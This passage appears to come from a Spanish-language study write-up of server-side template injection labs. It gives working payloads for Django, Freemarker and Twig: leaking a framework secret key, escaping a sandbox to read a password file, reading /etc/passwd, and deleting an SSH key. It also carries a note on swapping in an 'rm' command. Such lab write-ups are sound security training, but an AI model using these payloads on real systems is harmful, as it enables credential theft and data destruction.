 ```js
    {{/with}}
  {{/with}}
{{/with}}
//Todo Encoded a URL - y actualizamos `ls -la` -> `rm /home/carlos/morale.txt`

//LAB: SST Disclosure Info via user supplied-objects
//Template Engine: Django `Python`
//Purpose: Stole and take the SECRET_KEY of the Framework
//1. En la opción Edit Template tirar -> {{7*7}}, retorna error posible Python Template Engine, luego un {% debug %} que es propio de python. 
//2. Se mantiene un acceso a las propiedades mediante el Object `settings`
//3. Investigando se puede tirar algo hacía la SECRET_KEY que ya conocía de Django, y el ataque sería: 
//4. Dentro de alguna tag como <p>SSTI</p> tirar -> {{settings.SECRET_KEY}}
//5. Retorna la SECRET_KEY: qtzq0b45vzs7g7mj8r67c2ttv960ccvm

//LAB: SSTI In SandBoxed Environment LEVEL:Expert
//Template Engine: Freemarker `JAVA`
//Purpose: Break out sandbox to read file `my_password.txt` from /home/carlos/my_password.txt
//PAYLOAD FINAL: edit template inside tags -> <p>SSTI</p>
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
//Decodear la contraseña de ASCII->Text Normal - LISTO!

//LAB: SSTI Exploit Customized LEVE:Expert
//Template Engine: Twig `PHP`
//Purpose: Delete `/.ssh/id_rsa` del directorio: /home/carlos/.ssh/id_rsa
//1. Comprender la funcioalidad de la aplicación, levantar errores, encontrar versionamiento. 
//2. POST Change name author->user.setAvatar
//3. paramBodyAuthorName=user.setAvatar("/etc/passwd", "image/jpg")&otherParam
	//Disclosure Passwd. (revisando la image Avatar)
//4. Con base al error que se generaba del primer test, sale User.php, mirarlo.
//3. "meowHead"}}{{user.setAvatar('/home/carlos/User.php','image/jpg')}}{{"meowTail"
//4. devuelve info de funciones especificas, entre ellas delete gdpr
//PAYLOAD FINAL: 
5. "meowHead"}}{{user.setAvatar('/home/carlos/.ssh/id_rsa','image/jpg')}}{{user.gdprDelete()}}{{"meowTail"

```

Eso es todo de SSTI, que vaina ombe. 

## References: 

* https://security.snyk.io/vuln/SNYK-JS-HANDLEBARS-1056767
* https://blog.tarq.io/handlebars-4-1-2-command-execution/
* https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html
* https://hacktricks.boitatech.com.br/pentesting-web/ssti-server-side-template-injection
* https://stackoverflow.com/questions/39145686/avoid-java-package-freemarker-to-execute-commands

